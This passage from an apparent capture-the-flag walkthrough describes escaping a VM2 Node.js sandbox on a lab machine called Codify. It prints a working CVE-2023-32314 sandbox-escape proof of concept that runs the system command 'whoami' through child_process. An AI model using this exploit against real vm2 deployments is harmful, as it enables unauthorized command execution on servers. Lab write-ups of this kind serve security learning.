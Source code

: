 The application allowed us to run JS  code but there were some limitations which were documented on the limitations page.

![Codify main page](/assets/img/Codify/Codify_02.png)

### Code execution

So a basic command injection wouldn't work here. I then started looking for what they might have used to facilitate this nodejs sandbox. After doing some googling i found out that the most common module is **VM2**. Then searching further on this i found the following blog detailing information on different exploits that have been present in VM2 that allowed attackers to break out of the sandbox [Exploitable VM2 vulnerabilities ](https://www.uptycs.com/blog/exploitable-vm2-vulnerabilities). Reading the article i decided to try out the exploit [CVE-2023-32314 exploit](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

I used the following code snipped in the editor and our system command would run showing us the user it was running as

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("whoami").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```
